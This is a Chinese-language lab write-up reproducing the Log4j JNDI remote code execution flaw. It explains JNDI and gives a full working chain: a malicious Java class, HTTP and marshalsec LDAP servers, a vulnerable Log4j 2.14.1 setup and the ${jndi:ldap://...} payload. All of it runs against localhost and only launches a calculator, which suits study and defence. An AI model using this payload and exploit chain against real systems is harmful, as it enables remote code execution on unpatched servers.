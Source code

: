 # Log4j漏洞复现

复现环境和poc[参考](https://github.com/kozmer/log4j-shell-poc)

## JNDI

本部分[参考](https://sf2333.github.io/2021/12/13/log4j2-RCE%E5%A4%8D%E7%8E%B0/)

JNDI是Java命名与目录接口，类似一个索引中心，允许客户端通过name和directory发现和查找对象

JNDI架构由API和服务提供接口service provider interface（SPI）组成

- Java应用程序使用JNDI API访问各种命名和目录服务
- SPI使各种命名和目录服务能够透明地插入，从而允许使用JNDI API的Java应用程序访问其服务

![](img/jndiarch.gif)

使用JNDI访问对象

```java
String jndiName= [name];// 指定需要查找name名称
Context context = new InitialContext();// 初始化默认环境
DataSource ds = (DataSourse)context.lookup(jndiName);// 查找该name的数据
```

这些对象可以存储在不同的命名或目录服务中，如上图所示的LDAP、RMI

- LDAP：Lightweight Directory Access Protocol轻量级目录访问协议

`context.lookup`在命名服务中查找并返回对象

- 例如`ldap://127.0.0.1:1389/Exploit`如果绑定到上下文对象`127.0.0.1:1389/Exploit.class`，在返回这个类时，`lookup`方法会实现类的初始化，能够执行恶意代码
- 因此`jndiName`变量可控将导致JNDI注入

### JNDI+LDAP攻击实现

编写恶意类，在构造函数中写入恶意代码

- 这里的效果是弹出计算器

```java
public class Evil {

    public Evil() throws Exception {
        Runtime.getRuntime().exec("calc.exe");
    }
}
```

编译得到Evil.class

在Evil.class所在文件夹下开启http服务

```java
python -m http.server 1234
```

![](img/http服务开启.png)

然后使用[marshalsec](https://github.com/RandomRobbieBF/marshalsec-jar)开启一个LDAP服务，该LDAP服务与HTTP服务器上的恶意类进行了绑定

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:1234/#Evil
```

![](img/LDAP服务开启.png)

编写代码向LDAP服务器请求恶意类

- 在`lookup`方法中就会实现类的初始化，调用构造函数，弹出计算器

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Ldap {

    public static void main(String[] args) throws NamingException {
        Context context = new InitialContext();
        context.lookup("ldap://127.0.0.1:1389/Evil");
    }
}
```

弹出计算器

![](img/弹出计算器.png)

## 简单漏洞复现

按照上面的步骤开启LDAP服务器与HTTP服务绑定

pom.xml中导入log4j的版本为

```xml
<dependency>
	<groupId>org.apache.logging.log4j</groupId>
	<artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.1</version>
</dependency>
```

然后编写类

- logger.error就会触发恶意代码执行

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.util.Scanner;

public class Log4j2Test {

    private final static Logger logger = LogManager.getLogger(Log4j2Test.class);

    public static void main(String[] args) {
        Scanner input = new Scanner(System.in);
        System.out.print("Input your name: ");
        String name = input.nextLine();
        if(name.length() >= 5) {
            logger.error("valid name:" + name);  	//打印日志
        }
    }
}
```

运行程序，输入Payload

```
${jndi:ldap://127.0.0.1:1389/Evil}
```

成功弹出计算器

![](img/成功触发漏洞.png)

## 漏洞成因

待补充